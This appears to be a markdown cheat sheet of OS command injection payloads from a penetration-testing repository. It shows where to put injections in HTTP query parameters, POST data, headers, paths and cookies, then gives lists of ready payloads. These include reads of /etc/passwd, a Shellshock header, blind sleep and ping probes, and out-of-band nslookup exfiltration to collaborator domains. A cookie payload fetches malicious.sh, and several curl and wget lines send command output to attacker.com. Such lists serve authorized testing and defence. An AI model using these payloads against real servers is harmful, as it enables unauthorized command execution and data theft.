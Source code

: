 

# OS Command Injection Payloads

  - [Summary](#summary)
  - [Wordlist](#wordlist)
  - [Simple Case](#simple-case)
  - [Blind Injection](#blind-injection)
  - [Blind Injection with Output Redirection](#blind-injection-with-output-redirection)
  - [Out of Band](#out-of-band)
  - [ChatGPT Payload](#chatgpt-payload)
___
# Summary

To exploit an OS command injection vulnerability, an attacker must find a place where the application accepts user input and then inject a malicious payload that executes arbitrary commands on the server. This usually involves crafting an HTTP request where the payload is placed in an input field that the server processes with a system command.

Here are some examples of where to put a command injection payload in HTTP requests:

### 1. In Query Parameters

When an application takes a query parameter as input and uses it in a command execution on the server, you can place the payload in the parameter value.

**Example HTTP Request:**
```
GET /ping?host=127.0.0.1;cat%20/etc/passwd HTTP/1.1
Host: vulnerable-website.com
```
In this case, the server might execute a command like `ping 127.0.0.1` based on the input. The payload (`;cat /etc/passwd`) tries to execute an additional command to read the contents of the `/etc/passwd` file.

### 2. In POST Data

If a web application processes POST data to execute commands, you can inject the payload directly into the form data.

**Example HTTP Request:**
```
POST /submit HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin&command=whoami;id
```
In this example, the `command` parameter contains a payload (`whoami;id`) that tries to execute `whoami` followed by `id`. If the server executes this input as part of a command, the payload can run.

### 3. In HTTP Headers

Attackers may inject command injection payloads into HTTP headers if the application processes header values and uses them in commands.

**Example HTTP Request:**
```
GET / HTTP/1.1
Host: vulnerable-website.com
User-Agent: curl; ls -la
```
If the server uses the `User-Agent` header in a command execution, the payload (`; ls -la`) may run on the server.

### 4. In URL Path

Command injection payloads can also be placed in the URL path if the web application uses parts of the path to execute commands.

**Example HTTP Request:**
```
GET /execute/ls%20-la;cat%20/etc/passwd HTTP/1.1
Host: vulnerable-website.com
```
Here, the URL path `/execute/ls -la;cat /etc/passwd` is designed to manipulate the command execution on the server.

### 5. In Cookie Header

If the web application reads cookies and uses them in a system command, the payload can be placed inside the cookie value.

**Example HTTP Request:**
```
GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=abc123; curl -o /tmp/malicious.sh http://attacker.com/malicious.sh
```
The payload attempts to download a malicious script if the server processes the cookie value in a system command.

### Crafting the Payload

Common payloads for command injection include using separators like `;`, `&&`, `|`, or `||` to chain commands. Examples:
- `; cat /etc/passwd`
- `&& whoami`
- `| ls -la`
- `|| echo vulnerable`

By injecting these payloads in the right places, attackers can exploit command injection vulnerabilities to execute arbitrary commands on the server. Proper input validation, sanitization, and secure coding practices are crucial to mitigate these risks.

## Wordlist
```sh
;whoami;
;sleep+10;
nslookup+burpcollaborator.net
|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1
```
## Simple Case
```sh
& echo test &

& whoami #

;ls

;ls;

User-Agent: () { :; }; echo ; /bin/bash -c "cat /etc/passwd" >> In User-Agent Header.
```
## Blind injection
Example:  name=test&email=```;sleep 5;```&message=test or, name=test&email=```||sleep 5||```&message=test
```sh
; sleep 10 ||

& sleep 10 #

; sleep 10 ;

asd||sleep 5|| >> Middle of two parameter.

||ping+-c+10+127.0.0.1||

& ping -c 10 127.0.0.1

asd||sleep 5 # >> Last parameter or to comment out extra parameter
```
## Blind injection with output redirection
If you identified a blind Command Injection try to find a writable folder to read your output. Suppose, if a application serves it's images for the product catalog from location like ```/image?filename=22.jpg```, you can redirect the output from the injected command to a file in this ```images``` folder, and then use this URL to retrieve the contents of the file.
```sql
& whoami > /var/www/images/output.txt #
; whoami > /var/www/images/output.txt ;
```
Now, you can read content like this ```/image?filename=output.txt```

## Out of band
```sh
||nslookup x.vyx05udastzq6llyo3y9vqiswj2aq3vrk.oastify.com||

& nslookup x.burpcollaborator.net #

& nslookup `whoami`.xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

& nslookup $(whoami).xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1

Example-01: /api/v1/pdf/generate_zip?seed_id=521b62f5b7132de722027388|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1

Example-02: https://api.seedr.ru/uploads/521b62f5b7132de722027388|nslookup -q=cname 0vwm3493ytajvrc4a2g7ptfmgdm7a04o0crzhn6.burpcollaborator.net.&.zip

Example-03: email=a@a.com|nslookup -q=cname 6dkbk5sl74e1lw093edka1x3buhl5g34s.oastify.com.&.zip
```
## ChatGpt Payload
```
; ls
; dir
| ls
| dir
&& ls
&& dir
|| ls
|| dir
`ls`
`dir`
$(ls)
$(dir)
; id
; whoami
| id
| whoami
&& id
&& whoami
|| id
|| whoami
`id`
`whoami`
$(id)
$(whoami)
; id > /tmp/output.txt
; whoami > /tmp/output.txt
| id > /tmp/output.txt
| whoami > /tmp/output.txt
&& id > /tmp/output.txt
&& whoami > /tmp/output.txt
|| id > /tmp/output.txt
|| whoami > /tmp/output.txt
`id` > /tmp/output.txt
`whoami` > /tmp/output.txt
$(id) > /tmp/output.txt
$(whoami) > /tmp/output.txt
; curl http://attacker.com?data=$(id)
; wget http://attacker.com?data=$(id)
| curl http://attacker.com?data=$(id)
| wget http://attacker.com?data=$(id)
&& curl http://attacker.com?data=$(id)
&& wget http://attacker.com?data=$(id)
|| curl http://attacker.com?data=$(id)
|| wget http://attacker.com?data=$(id)
`curl http://attacker.com?data=$(id)`
`wget http://attacker.com?data=$(id)`
$(curl http://attacker.com?data=$(id))
$(wget http://attacker.com?data=$(id))
```
